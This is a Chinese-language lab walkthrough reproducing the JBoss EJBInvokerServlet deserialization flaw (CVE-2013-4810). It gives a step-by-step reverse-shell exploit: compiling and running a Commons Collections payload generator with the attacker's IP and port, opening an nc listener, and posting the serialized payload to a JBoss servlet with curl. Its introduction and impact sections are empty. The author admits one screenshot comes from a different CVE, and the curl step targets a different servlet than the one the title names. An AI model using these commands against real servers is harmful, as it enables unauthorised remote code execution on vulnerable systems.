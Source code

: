 （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入http://172.26.1.151:8080/invoker/EJBInvokerServle
返回如图（图片是CVE-2015-7501的图片。差不多就是这个意思。凑活看哈\~），说明接口开发，存在反序列化漏洞

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId24.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId26.png)

打开nc界面，发现shell已经弹回来了

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId27.png)
